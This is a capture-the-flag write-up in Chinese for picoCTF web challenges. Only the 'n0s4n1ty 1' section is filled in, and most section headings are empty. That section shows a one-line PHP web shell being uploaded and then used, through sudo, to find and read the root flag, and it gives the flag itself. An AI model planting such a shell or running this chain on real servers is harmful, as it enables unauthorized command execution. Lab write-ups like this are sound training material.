


## 0x00 SSTI1





## 0x01 n0s4n1ty 1

先建立 webshell 檔案準備上傳

```shell
echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

看一下 root 目錄的內容

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=ls%20/root
```

發現好像沒權限

Response:

```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

回應是空的可能是沒權限，所以試試看使用 `sudo` 找一下 flag 在哪

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=sudo%20find%20/%20-name%20%22flag.txt%22
```

Response:

```
/root/flag.txt
```

嘗試把 flag 印出來

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt
```

得到 flag

Response:

```shell
picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
```

## 0x02 head-dump

## 0x03 Cookie Monster Secret Recipe
